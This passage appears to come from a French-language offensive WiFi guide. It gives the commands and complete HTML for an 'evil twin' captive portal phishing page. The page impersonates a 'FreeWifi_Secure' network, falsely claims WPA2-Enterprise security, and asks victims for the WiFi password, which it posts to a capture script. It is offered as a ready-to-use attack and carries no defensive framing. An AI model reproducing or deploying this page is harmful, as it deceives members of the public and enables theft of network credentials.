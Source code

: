 ### **Captive portal phishing**

#### **Serveur web Apache simple**
```bash
# ÉTAPE 1 : Installer Apache
sudo apt install apache2 php

# ÉTAPE 2 : Créer page phishing WiFi
sudo nano /var/www/html/index.html

# CONTENU PAGE PHISHING :
<!DOCTYPE html>
<html>
<head>
    <title>Connexion WiFi Sécurisée</title>
    <style>
        body { font-family: Arial; background: #f0f0f0; }
        .login-box { 
            width: 400px; margin: 100px auto; 
            background: white; padding: 30px; 
            border-radius: 10px; box-shadow: 0 0 20px rgba(0,0,0,0.1);
        }
        input[type="password"] { 
            width: 100%; padding: 10px; margin: 10px 0; 
            border: 1px solid #ddd; border-radius: 5px;
        }
        .btn { 
            background: #007cba; color: white; 
            padding: 12px 30px; border: none; 
            border-radius: 5px; cursor: pointer;
        }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>🔒 Sécurité WiFi</h2>
        <p>Pour des raisons de sécurité, veuillez confirmer le mot de passe WiFi :</p>
        
        <form action="capture.php" method="POST">
            <label>Réseau : <strong>FreeWifi_Secure</strong></label><br>
            <input type="password" name="wifi_password" placeholder="Mot de passe WiFi" required>
            <br><br>
            <button type="submit" class="btn">Se connecter</button>
        </form>
        
        <p style="font-size: 12px; color: #666;">
        Connexion sécurisée par protocole WPA2-Enterprise
        </p>
    </div>
</body>
</html>
```
